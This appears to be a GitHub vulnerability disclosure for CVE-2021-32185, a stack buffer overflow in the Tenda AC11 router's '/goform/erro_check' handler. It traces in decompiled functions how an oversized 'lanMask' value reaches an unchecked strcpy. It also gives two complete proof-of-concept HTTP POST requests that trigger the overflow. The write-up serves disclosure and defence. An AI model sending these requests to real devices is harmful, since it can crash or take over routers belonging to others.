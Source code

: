 # Tenda Router AC11 Vulnerability

This vulnerability lies in the `/goform/erro_check` page which influences the lastest version of Tenda Router AC11. (FYI, lastest version of this product is [AC11_V02.03.01.104_CN](https://www.tenda.com.cn/download/detail-3163.html))

## Vulnerability description

There is a stack buffer overflow vulnerability in function `sub_80014DE0` (page `/goform/erro_check`).

This function uses `strcpy` to copy the string pointed by `v5` into a stack buffer pointed by `v27`. `v5` is directly retrived from the nvram variable `lan_netmask` without any security check.

![1](1.PNG)

the `lan_netmask` variable can be controlled by attacker by calling the function `sub_800CC270`(page `/goform/start_dhcp_server`) which gets in a parameter called `lanMask` into varialbe `v12`, which can then be used to assign to the `lan_netmask` variable.

![2](2.PNG)

If function `sub_80012558` returns zero,then the nvram variable `lan_netmask` will be set as `v12` 

![3](3.PNG)

In function `sub_80012558`,it will first get the original nvram variable of `lan_netmask` and compare with `v12`. In function `gstrcmp_0`,if two parameters are the same,it will return 0. So if `v12` is different from the original value of nvram variable `lan_netmask`,then the function `sub_80012558` will return 0.

![4](4.PNG)

So by first setting the `lan_netmask` and then requesting the page `/goform/erro_check`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.

## POC

```plain
POST /goform/start_dhcp_server HTTP/1.1
Host: 192.168.0.1
Content-Length: 1043
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

module1=wifiBasicCfg&lanMask=111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111&doubleBandUnityEnable=false&wifiTotalEn=true&wifiEn=true&wifiSSID=Tenda_B0E040&wifiSecurityMode=WPAWPA2%2FAES&wifiPwd=Password12345&wifiHideSSID=false&LEDCloseTIme=1270219&wifiEn_5G=true&wifiSSID_5G=Tenda_B0E040_5G&wifiSecurityMode_5G=WPAWPA2%2FAES&wifiPwd_5G=Password12345&wifiHideSSID_5G=false&module2=wifiGuest&guestEn=false&guestEn_5G=false&guestSSID=Tenda_VIP&guestSSID_5G=Tenda_VIP_5G&guestPwd=&guestPwd_5G=&guestValidTime=8&guestShareSpeed=0&module3=wifiPower&wifiPower=high&wifiPower_5G=high&module5=wifiAdvCfg&wifiMode=bgn&wifiChannel=auto&wifiBandwidth=auto&wifiMode_5G=ac&wifiChannel_5G=auto&wifiBandwidth_5G=auto&wifiAntijamEn=false&module6=wifiBeamforming&wifiBeaformingEn=true&module7=wifiWPS&wpsEn=true
```

```plain
POST /goform/erro_check HTTP/1.1
Host: 192.168.0.1
Content-Length: 103
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

## Acknowledgment

Credit to [@Yu3H0](https://github.com/Yu3H0), [@1chig0](https://github.com/1chig0), and [@cpegg](https://github.com/cpeggg) from Shanghai Jiao Tong University  and TIANGONG Team of Legendsec at Qi'anxin Group.

## CVE ID
CVE-2021-32185